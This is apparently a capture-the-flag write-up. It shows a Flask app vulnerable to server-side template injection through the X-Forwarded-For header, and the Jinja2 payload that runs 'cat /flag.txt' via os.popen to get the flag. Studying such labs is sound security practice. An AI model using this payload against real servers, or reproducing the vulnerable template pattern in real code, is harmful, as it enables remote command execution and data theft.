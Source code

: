 # solution

Look through source code

```
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
    try:
        client_ip = request.headers.getlist("X-Forwarded-For")[0].split(':')[0]
    except:
        client_ip = None
    if not client_ip:
        client_ip = request.remote_addr
    message = f"This page is being accessed from the remote address: {client_ip}"
    return render_template_string(message)
    ## Fix Server Side Template Injection
    # message = "This page is being accessed from the remote address: {{client_ip}}"
    # return render_template_string(message, client_ip=client_ip)

if __name__ == "__main__":
    app.run(debug=True, host='0.0.0.0', port=1337)
```

Hmm, seem i can use x-Forwarded-For header to trigger ssti vulnerability, firstly let fuzz a bit.
![alt text](image.png)<br>
Server use jinja2. Let try a basic payload and its work.
![alt text](image-1.png)<br>
Then i go to hacktrick and find a proper payload

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}
```

![alt text](image-2.png)<br>
